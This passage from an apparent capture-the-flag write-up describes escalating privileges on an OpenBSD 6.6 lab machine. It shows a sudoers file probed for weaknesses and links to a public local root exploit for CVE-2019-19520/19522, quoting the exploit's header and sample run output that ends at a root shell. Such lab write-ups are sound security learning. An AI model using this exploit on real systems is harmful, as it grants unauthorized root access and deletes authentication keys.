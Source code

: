 ```text
root    ALL=(ALL) SETENV: ALL

# Uncomment to allow people in group wheel to run all commands
# and set environment variables.
# %wheel        ALL=(ALL) SETENV: ALL

# Same thing without a password
# %wheel        ALL=(ALL) NOPASSWD: SETENV: ALL

# Samples
# %users  ALL=/sbin/mount /cdrom,/sbin/umount /cdrom
# %users  localhost=/sbin/shutdown -h now

www     ALL=(jennifer) NOPASSWD: /usr/local/otp/skey_gen
```

In the `/etc/sudoers` file there was an interesting entry that let `www` run the `skey_gen` command as `jennifer`; too bad the wheel group was commented out...since this would have let me privesc

### Getting a shell

```text
openkeys$ uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

Version is OpenBSD 6.6 x64

searching for root exploit for this led to [https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot](https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot)

```text
#!/bin/sh
# openbsd-authroot - OpenBSD local root exploit for CVE-2019-19520 and CVE-2019-19522
# Code mostly stolen from Qualys PoCs:
# - https://www.openwall.com/lists/oss-security/2019/12/04/5
#
# Uses CVE-2019-19520 to gain 'auth' group permissions via xlock;
# and CVE-2019-19520 to gain root permissions via S/Key or YubiKey
# (requires S/Key or YubiKey authentication to be enabled).
# ---
# $ ./openbsd-authroot
# openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
# [*] checking system ...
# [*] system supports YubiKey authentication
# [*] id: uid=1002(test) gid=1002(test) groups=1002(test)
# [*] compiling ...
# [*] running Xvfb ...
# [*] testing for CVE-2019-19520 ...
# (EE) 
# Fatal server error:
# (EE) Server is already active for display 66
#         If this server is no longer running, remove /tmp/.X66-lock
#         and start again.
# (EE) 
# [+] success! we have auth group permissions
#
# WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).
#
# [*] trying CVE-2019-19522 (YubiKey) ...
# Your password is: krkhgtuhdnjclrikikklulkldlutreul
# Password:
# ksh: /etc/profile[2]: source: not found
# # id                                                                                                                                                                                    
```